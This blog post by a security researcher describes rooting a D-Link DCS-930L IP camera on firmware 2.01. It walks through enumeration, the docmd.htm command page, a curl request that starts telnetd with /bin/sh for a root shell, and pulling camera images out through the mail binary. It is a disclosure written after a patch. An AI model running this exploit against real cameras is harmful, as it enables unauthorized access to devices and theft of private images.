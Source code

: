 --
layout: post
title:  "DLink DCS 930L"
date:   2016-04-25 00:00:00 -0600
categories: security dlink ip-camera exploit
author: Nicholas Starke
---

In late 2015, I decided to start researching IP Cameras.  I decided to try out the cheapest models available on Amazon.com, both because I thought those models would be more “fruitful” and because I was trying to do this research on a budget.  It turns out that the security on these lower model IP Cameras is really bad.

I looked at five different IP Cameras and was able to gain root access on four of them within a few hours of starting to poke at them.  All of the cameras I looked at cost between $30-$70, and can be purchased directly from Amazon.com.

My goals in completing this research were two-fold:
1. Gain root access on the camera
2. Find a way to exfiltrate camera stills or video off the camera

On all four of the cameras I rooted, I was able to exfiltrate image data off of the device.

Today we’re going to look at one of the models I was able to gain root access on.  I chose this model because a subsequent patch fixed the vulnerability that allowed me to gain root access.

I started by running nmap to check the available ports.  Nothing too interesting there.

```
 Nmap scan report for 192.168.1.13
 Host is up (0.0026s latency).
 Not shown: 65532 closed ports
 PORT     STATE SERVICE
 80/tcp   open  http
 443/tcp  open  https
 8750/tcp open  unknown
 ```

This camera has pretty extensive web administration capabilities, including the ability to upload vendor supplied patches to update the device.  However, the version we will be looking at today is the version that comes installed on the device when you open the box: version 2.01.  The default credentials, which come printed in the documentation with the device, are `admin:admin`. The vulnerability I exploit below is patched in version 2.12 and above, which is available from the DLink website. 

My first try involved checking the various HTML inputs.  This turned up a couple of not very interesting cross site scripting vulnerabilities that would be hard to exploit in the wild.

## Wfuzz

My second try began with running wfuzz with the `directory-list-2.3-medium.txt` word list that comes with every default Kali Linux installation.  For those of you not familiar with wfuzz, it is a tool like dirbuster that facilitates directory enumeration on web servers that do not allow directory indexing.  Running wfuzz turned up a lot of html documents that I was already aware of, plus a few more that seemed useless - and then one that turned out to be the beginning of the jackpot: html.htm.

## Html.htm

Load html.htm in a browser and the HTML document will contain a list of all the webpages available in the web root.  It is more or less a directory index listing.  I navigated through each one of the pages until I found the next stage of the jackpot: docmd.htm!

## Docmd.htm and Telnet Injection

Docmd.htm contains a text box and a submit button.  This form allows direct command execution on the device.  So what’s the next logical step?

`telnetd -l/bin/sh`

A curl command capable of accomplishing this would look like:

`curl 'http://$CAMERA_IP/setSystemCommand' -H 'Authorization: Basic $BASICAUTH_CREDS' -H 'Content-Type: application/x-www-form-urlencoded' --data 'ReplySuccessPage=docmd.htm&ReplyErrorPage=docmd.htm&SystemCommand=telnetd&ConfigSystemCommand=Save'`

Fire up telnet or netcat and connect to port 23 of the camera.  Root shell accomplished!

## Image Exfiltration

While the root shell was not too difficult to load up, it took significantly longer to figure out how to capture image data.  I started by documenting all the binaries available in the PATH and elsewhere on the filesystem, and then working my way through each to see what they did:

```bash
 # ls /bin
 chmod          htmlunpack     sounddb        imagetp        ated           umount         ps             swing
 busybox        nvram_daemon   mknod          mail           kill           uvc_stream     rm             alphapd
 nvram_set      ash            openssl        ping           ralink_init    msmtp          i2c            gpio
 ls             pcmcmd         echo           notifystream   switch         mDNSResponder  lanconfig
 touch          sed            pppoecd        reg            audiopush      cp             mkdir
 upgradefw      mount          login          lld2d          iperf          mydlinkevent   ipush
 ntpclient      iwpriv         sleep          pwd            sh             nvram_get      cat
 grep           inadyn         date           schedule       mii_mgr        mtd_write      ov7740
 # ls /sbin
 automount_boot.sh    config-udhcpd.sh     udhcpc               reboot               udev                 config-igmpproxy.sh
 snort.sh             zcip                 cpubusy.sh           ucp                  wlan.sh              pppoe.sh
 ddns.sh              udhcpc.sh            acodec               route                poweroff
 internet.sh          ntp.sh               vpn-passthru.sh      web.sh               snmp.sh
 video.sh             config-dns.sh        config-pppoe.sh      arp                  dhcp.sh
 config-iTunes.sh     chpasswd.sh          halt                 ifconfig             automount.sh
 zcip.sh              init                 lan.sh               mdev                 cameraname.sh
 # ls /usr/bin
 killall      free         expr         test         ftpd         arping       printf
 [            [[           uptime       ftpputimage  top          tr
 # ls /usr/sbin
 chpasswd  inetd     brctl     telnetd
```

I eventually came across the `mail` command, which allowed me to write a `mail` message to `/tmp/mail.txt`.  Inside that file is the base64 encoded image data from the moment the “mail” command was run. Copy that data into a tmux buffer, write it to your local filesystem and base64 decode that raw data for an image file!

I also created a Metasploit module for this vulnerability: [https://www.rapid7.com/db/modules/exploit/linux/http/dlink_dcs_930l_authenticated_remote_command_execution](https://www.rapid7.com/db/modules/exploit/linux/http/dlink_dcs_930l_authenticated_remote_command_execution)
